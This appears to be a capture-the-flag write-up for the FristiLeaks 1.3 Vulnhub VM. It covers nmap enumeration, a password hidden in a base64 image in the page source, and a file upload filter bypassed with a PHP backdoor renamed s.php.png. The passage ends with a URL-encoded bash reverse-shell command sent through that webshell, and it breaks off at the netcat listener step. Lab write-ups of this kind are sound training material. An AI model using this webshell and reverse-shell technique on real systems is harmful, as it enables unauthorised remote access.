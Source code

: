 ```yaml
---
layout: single
title:  "Vulnhub - FristiLeaks #1.3 Writeup"
date:   2020-02-16 10:43:16 +0530
categories: Vulnhub
tags: OSCP
classes: wide
---
```


## Description:
[Vulnhub - FristiLeaks #1.3](https://www.vulnhub.com/entry/fristileaks-13,133/)
A small VM made for a Dutch informal hacker meetup called Fristileaks. Meant to be broken in a few hours without requiring debuggers, reverse engineering, etc..

## Enumeration
Starting off with `nmap` after adding `fristileaks` to `hosts` file.

### Nmap
```bash
Nmap scan report for fristileaks.com (192.168.29.5)
Host is up, received arp-response (0.00067s latency).
Scanned at 2020-02-16 00:30:56 EST for 12s
Not shown: 999 filtered ports
Reason: 990 no-responses and 9 host-prohibiteds
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:4A:3B:0D (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 16 00:31:08 2020 -- 1 IP address (1 host up) scanned in 14.25 seconds
```

So all we have is a web serve on port 80. Checking out the urls in robot.txt just returns a image stating that we are looking at the wrong url. Other enumeration methods turned up empty or useless results. I was banging my head against the wall looking for any possible attack avenue. In the end I has to go online to look for some hints. Turns out that there is a directory named `fristi`. How the hell was I supposed to find that?. Mahn I hate ctf based challenges. So anyways lets see whats in there.

<image
    
We are greeted with a login page. Tried out some `sql` injection, but it seems to invulnerable. Let's check if there is anything interesting in the source code.  


```html
<html>
<head>
<meta name="description" content="super leet password login-test page. We use base64 encoding for images so they are inline in the HTML. I read somewhere on the web, that thats a good way to do it.">
<!-- 
TODO:
We need to clean this up for production. I left some junk in here to make testing easier.

- by eezeepz
-->
</head>
<body>
<center><h1> Welcome to #fristileaks admin portal</h1></center>
<center><img src="data:img/png;base64,/9j/4AAQSkZJRgABAgAAZABkAAD/7AARRHVja3k
AAQAEAAAAZAAA/+4ADkFkb2JlAGTAAAAAAf/bAIQAAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQICAgICAgICAgICAwMDAwMDAwMDAwEBAQEBAQECAQECAgIBAgIDAwMDA

------output snipped----------
    
<!-- 
iVBORw0KGgoAAAANSUhEUgAAAW0AAABLCAIAAAA04UHqAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
jwv8YQUAAAAJcEhZcwAADsMAAA7DAcdvqGQAAARSSURBVHhe7dlRdtsgEIVhr8sL8nqymmwmi0kl
S0iAQGY0Nb01//dWSQyTgdxz2t5+AcCHHAHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixw
B4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzkCwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL5kc+f
m63yaP7/XP/5RUM2jx7iMz1ZdqpguZHPl+zJO53b9+1gd/0TL2Wull5+RMpJq5tMTkE1paHlVXJJ
Zv7/d5i6qse0t9rWa6UMsR1+WrORl72DbdWKqZS0tMPqGl8LRhzyWjWkTFDPXFmulC7e81bxnNOvb
DpYzOMN1WqplLS0w+oaXwomXXtfhL8e6W+lrNdDFujoQNJ9XbKtHMpSUmn9BSeGf51bUcr6W+VjNd
jJQjcelwepPCjlLNXFpi8gktXfnVtYSd6UpINdPFCDlyKB3dyPLpSTVzZYnJR7R0WHEiFGv5NrDU
12qmC/1/Zz2ZWXi1abli0aLqjZdq5sqSxUgtWY7syq+u6UpINdOFeI5ENygbTfj+qDbc+QpG9c5
uvFQzV5aM15LlyMrfnrPU12qmC+Ucqd+g6E1JNsX16/i/6BtvvEQzF5YM2JLhyMLz4sNNtp/pSkg1
04VajmwziEdZvmSz9E0YbzbI/FSycgVSzZiXDNmS4cjCni+kLRnqizXThUqOhEkso2k5pGy00aLq
i1n+skSqGfOSIVsKC5Zv4+XH36vQzbl0V0t9rWb6EMyRaLLp+Bbhy31k8SBbjqpUNSHVjHXJmC2Fg
tOH0drysrz404sdLPW1mulDLUdSpdEsk5vf5Gtqg1xnfX88tu/PZy7VjHXJmC21H9lWvBBfdZb6Ws
30oZ0jk3y+pQ9fnEG4lNOco9UnY5dqxrhk0JZKezwdNwqfnv6AOUN9sWb6UMyR5zT2B+lwDh++Fl
3K/U+z2uFJNWNcMmhLzUe2v6n/dAWG+mLN9KGWI9EcKsMJl6o6+ecH8dv0Uu4PnkqDl2rGuiS8HK
ul9iMrFG9gqa/VTB8qORLuSTqF7fYU7tgsn/4+zfhV6aiiIsczlGrGvGTIlsLLhiPbnh6KnLDU12q
mD+0cKQ8nunpVcZ21Rj7erEz0WqoZ+5IRW1oXNB3Z/vBMWulSfYlm+hDLkcIAtuHEUzu/l9l867X34
rPtA6lmLi0ZrqX6gu37aIukRkVaylRfqpk+9HNkH85hNocTKC4P31Vebhd8fy/VzOTCkqeBWlrrFhe
EPdMjO3SSys7XVF+qmT5UcmT9+Ss//fyyOLU3kWoGLd59ZKb6Us10IZMjAP5b5AgAL3IEgBc5AsCLH
AHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixwB4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzk
CwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL3IEgBc5AsCLHAHgRY4A8Pn9/QNa7zik1qtycQAAAABJR
U5ErkJggg==
-->
    
------output snipped----------
```

So we have a message by user `eezeepz` and we have two images encode in base64.(I didn't you could do that). The second image seems to be commented out. We can use a [base64 to png converter](https://onlinepngtools.com/convert-base64-to-png) to check the contents.

<image>
    
We are presented with a string, which might be probably be the password for `eezeepz`. Login into the admin console using the password `keKkeKKeKKeKkEkkEk`.

<image>
    
We are greeted with a upload file page, that only allows `png,jpg,gif`. After trying out various payloads, I found the following.

1. The file has to end with `.png` to be uploaded
2. The [magic byte]() of the file is irrelevant.

I used simple php backdoor available at `/usr/share/webshells/php/simple-backdoor.php`, renamed it as `s.php.png` and uploaded it.


## Low Shell

```bash
fristileaks.com/fristi/uploads/s.php.png?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.29.3%2F4444%200%3E%261
```

Start `nc` and wait for a connection.

```bash
